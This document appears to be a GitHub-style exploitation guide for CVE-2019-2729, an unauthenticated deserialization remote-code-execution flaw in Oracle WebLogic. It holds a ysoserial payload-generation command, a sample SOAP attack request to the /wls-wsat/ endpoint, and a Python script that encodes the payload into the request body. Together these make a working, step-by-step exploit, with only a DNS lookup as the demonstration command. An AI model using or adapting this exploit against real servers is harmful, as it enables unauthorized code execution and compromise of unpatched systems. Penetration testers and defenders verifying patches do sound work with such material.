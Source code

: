 
# Exploiting CVE-2019-2729

## WebLogic Deserialization Vulnerability

CVE-2019-2729 is a Java deserialization vulnerability in Oracle WebLogic
versions 10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0.  Serialized Java objects are
accepted anonymously via an HTTP service and deserialized.  Remote code
execution is possible without authentication.

This exploit was tested against WebLogic 10.3.6.0.

A typical vulnerable server will have HTTP services listening on one or more
TCP ports which have a web application at /wls-wsat/.

## Generate a payload with ysoserial

First, get ysoserial (https://github.com/frohoff/ysoserial) and use it to
generate a simple RCE payload.

```
java -jar ysoserial-0.0.5-all.jar Jdk7u21 "nslookup test222.ourns.example.com" > payload
```

Here, we generate a payload using ysoserial which will do a DNS lookup that
we'll be able to monitor.  The "payload" file contains a serialized Java
LinkedHashSet object which will run this command.

Note that the ysoserial payload generator used here, named Jdk7u21, only
works under JRE version 7u21 and earlier (see
https://gist.github.com/frohoff/24af7913611f8406eaf3), however that seems to
be standard with WebLogic 10.3.6.0.  You might have to use a different
payload for newer versions of WebLogic. The advantage to Jdk7u21 is the lack
of any dependancies in the server's classpath.

## Transform the payload into SOAP

Next, we need to massage this blob into a SOAP HTTP request body.  The
affected web services accept SOAP requests containing Java objects encoded
in Java's XMLEncoder format.  An example request showing the format:

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 10.0.3.8:8200
SOAPAction:
Content-Type: text/xml
Content-Length: 204219

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
 <soapenv:Header>
  <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
   <java>
    <array method="forName">
     <string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string>
     <void>
      <array class="byte" length="3">
       <void index="0">
        <byte>1</byte>
       </void>
       <void index="1">
        <byte>2</byte>
       </void>
       <void index="2">
        <byte>3</byte>
       </void>
      </array>
     </void>
    </array>  
   </java>
  </work:WorkContext>   
 </soapenv:Header>
 <soapenv:Body/>
</soapenv:Envelope>
```

The payload generated above needs to be stuffed into a byte[] array by the
server. The following python script will generate the required request body
and write it to a file named "payload_encoded".

```
of = open('payload_encoded','w')
payload = open('payload').read()

of.write('<?xml version="1.0" encoding="utf-8"?>\n')
of.write('<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">\n')
of.write(' <soapenv:Header>\n')
of.write('  <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">\n')
of.write('   <java>\n')
of.write('    <array method="forName">\n')
of.write('     <string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string>\n')
of.write('     <void>\n')
of.write('      <array class="byte" length="%d">\n' % len(payload) )

for i in range(len(payload)):
    byte = payload[i]
    v = ord(byte)
    if v >= 128:
        v = -256+v
    of.write('       <void index="%d">\n' % i)
    of.write('        <byte>%d</byte>\n' % v)
    of.write('       </void>\n')

of.write('      </array>\n')
of.write('     </void>\n')
of.write('    </array>\n')
of.write('   </java>\n')
of.write('  </work:WorkContext>\n')
of.write(' </soapenv:Header>\n')
of.write(' <soapenv:Body/>\n')
of.write('</soapenv:Envelope>\n')
```

Next, send the generated request body to the affected service via a POST
request to POST /wls-wsat/CoordinatorPortType. The entire resulting HTTP
request should look just like the example above but much longer.

The server will return a 500 response, however the command should execute
anyway.

